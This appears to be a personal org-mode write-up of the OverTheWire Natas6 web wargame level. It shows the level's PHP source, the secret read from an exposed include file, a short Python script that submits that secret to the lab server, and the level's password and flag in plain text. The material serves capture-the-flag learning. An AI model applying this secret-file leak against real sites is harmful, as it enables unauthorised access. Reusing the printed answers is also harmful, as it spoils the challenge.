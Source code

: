 :PROPERTIES:
:ID:       340c47e7-79cb-4c63-b606-2d80357a56cc
:END:
#+title: Natas6
* Previous
[[id:4d555387-119c-40cc-8483-819b38b1ef08][Natas5]]

* Password
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

* Flag
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

* Notes

Source code given on the natas6 page:
#+begin_src html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas6", "pass": "<censored>" };</script></head>
<body>
<h1>natas6</h1>
<div id="content">

<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

#+end_src

The `submit` key must exist.
The `secret` k-v pair must equal the k-v pair on the server.
The "includes/secret.inc" file is included, which contains :
#+begin_src
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
#+end_src

We send a POST request with the required k-v pairs.

#+begin_src python :results output
#!/usr/bin/env python3

import requests
import re
from natas_pass import passwords

session = requests.Session()
username = "natas6"
password = passwords[username]

url = "http://{}.natas.labs.overthewire.org/".format(username, password, username)

# secret from includes/secret.inc : FOEIUWGHFEEUHOFUOIU
secret = "FOEIUWGHFEEUHOFUOIU"
response = session.post(
    url, auth=(username, password), data={"submit": "", "secret": secret}
)

content = response.text
# print(content)

p = re.findall("([a-zA-Z0-9]{32})", content)

if p and p[0] == password:
    p.pop(0)

print(p[0])
#+end_src

#+RESULTS:
: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

* Next
[[id:2f0c9708-04e6-4978-a6bd-5350e4f35804][Natas7]]
